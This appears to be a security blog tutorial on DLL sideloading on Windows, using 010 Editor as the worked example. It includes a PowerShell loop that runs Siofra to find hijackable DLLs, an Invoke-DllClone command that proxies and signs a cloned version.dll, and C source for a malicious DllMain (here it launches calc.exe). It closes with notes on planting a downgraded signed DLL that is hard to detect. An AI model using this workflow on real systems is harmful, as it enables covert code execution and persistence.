



What is DLL-Sideloading
In this guide, we will provide a quick overview of a DLL-sideloading attack and demonstrate how it can be executed. Dynamic link libraries (DLLs) are loaded by the operating system (OS) when an application starts. There are two main methods of loading DLLs, and we focus on those that are specified only by name and not by an absolute path.
DLLs without a specified path are searched by the OS. The OS has a defined search order, which can vary depending on certain settings such as Safe-DLL. To determine the specific search order for your system, you can conduct a search or refer to relevant documentation.
The Attack
If we can successfully place our own loaded DLL in a directory that is part of the search order and is positioned earlier than the original file, our DLL will be loaded along with the program. It is crucial to note that we must have write access to the directory in order to accomplish this.
Tools
siofra
There is a tool that is able to search for these kinds of vulnerabilities I like: It is siofra.
Consider the following powershell script from here. For 32-bit exchange the Siofra.exe
Get-ChildItem -Path "C:\Program Files\" -Filter *.exe -Recurse -File -Name | ForEach-Object{
mkdir C:\temp\hijacktest
$binarytoCheck = "C:\Program Files\" + $_
C:\Tools\siofra\Siofra64.exe --mode file-scan --enum-dependency --dll-hijack -f $binarytoCheck >> C:\temp\hijacktest\toCheck.txt
}
Generally the output can be considered in two parts, the binary analysis shows which dlls might be attackable with an exlamation mark:

In the next section it will analyse the probable attackable libraries and gives an exploitabilty suggestion: 
Here you can see, which dll's one would have to place and where. A nice next step would be to get which of the vulnerable marked locations are writeable to us.
Koppeling
When placing a DLL with our attack code, we quickly realize the need to provide all the functions that the main binary wants to import from the library. This challenge is addressed by using koppeling.
Koppeling is a tool that allows us to provide the original desired DLL and our attacker code separately. It facilitates the merging of these components, ensuring that all the required functions are available for the application.
I use Invoke-DLLClone, which uses Koppeling inside, since I had problems with the original code. Then we just need some DLL code like this:
#include <windows.h>
#include "pch.h"
DWORD WINAPI fireLazor(LPVOID lpParameter) {
WinExec("calc.exe", 0);
return 0;
}
BOOL APIENTRY DllMain(HMODULE hModule,
DWORD ul_reason_for_call,
LPVOID lpReserved) {
HANDLE threadHandle;
switch (ul_reason_for_call) {
case DLL_PROCESS_ATTACH:
threadHandle = CreateThread(NULL, 0, fireLazor, NULL, 0, NULL);
CloseHandle(threadHandle);
case DLL_THREAD_ATTACH:
break;
case DLL_THREAD_DETACH:
break;
case DLL_PROCESS_DETACH:
break;
}
return TRUE;
}
Example
I will attack 010 editor. As we saw before, its version.dll is vulnerable.
Compile the source code from above with Visual Studio as a DLL library and run
Invoke-DllClone -Source C:\Windows\System32\version.dll -target C:\Users\you\source\repos\Dll1\x64\Release\urname.dll -output version.dll -sign
Placing it in the same directory as 010 editor and running it will cause this:

Downgrading
Most of the time, I consider myself to be in a lower privileged position and contemplate injecting my code somewhere. However, there is another attack against DLL sideloading known as downgrading. This attack may be challenging or ineffective in low-privilege situations, but it becomes particularly interesting in higher privilege scenarios.
With downgrading, we can replace a DLL with a known vulnerable version. If the other imported functions remain intact, the loading process will succeed (although there may be cases where the output of the functions has changed, resulting in runtime issues, but this is not very common).
A downgraded attack-code-free DLL is extremely difficult for the blue team to track. In fact, it can even be an officially signed DLL. Of course, it's essential to have an appropriate exploit to make use of this technique, so keep that in mind.